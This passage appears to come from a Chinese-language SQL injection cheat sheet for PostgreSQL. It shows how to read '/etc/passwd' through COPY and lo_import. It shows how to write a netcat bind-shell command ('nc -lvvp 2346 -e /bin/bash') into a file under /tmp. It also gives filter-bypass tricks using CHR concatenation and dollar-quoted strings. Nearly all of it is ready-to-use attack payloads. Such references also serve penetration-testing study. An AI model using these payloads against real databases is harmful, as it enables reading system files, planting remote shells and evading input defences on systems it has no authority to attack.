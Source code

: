 早期版本的`pg_read_file`和`pg_ls_dir`不支持绝对路径，但是新版本将允许超级用户或者在`default_role_read_server_files`组中的用户使用:

```
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```

```
SELECT lo_import('/etc/passwd'); -- will create a large object from the file and return the OID

SELECT lo_get(16420); -- use the OID returned from the above

SELECT * from pg_largeobject; -- or just get all the large objects and their data
```



**写文件**

```
CREATE TABLE pentestlab (t TEXT);

INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');

SELECT * FROM pentestlab;

COPY pentestlab(t) TO '/tmp/pentestlab';
```

一行：

```bash
COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
```





## Bypass Filter

Using `CHR`

```
SELECT CHR(65)||CHR(66)||CHR(67);
```

Using `Dollar-signs` ( >= version 8 PostgreSQL)

```
SELECT $$This is a string$$
SELECT $TAG$This is another string$TAG$
```





# SQLite注入
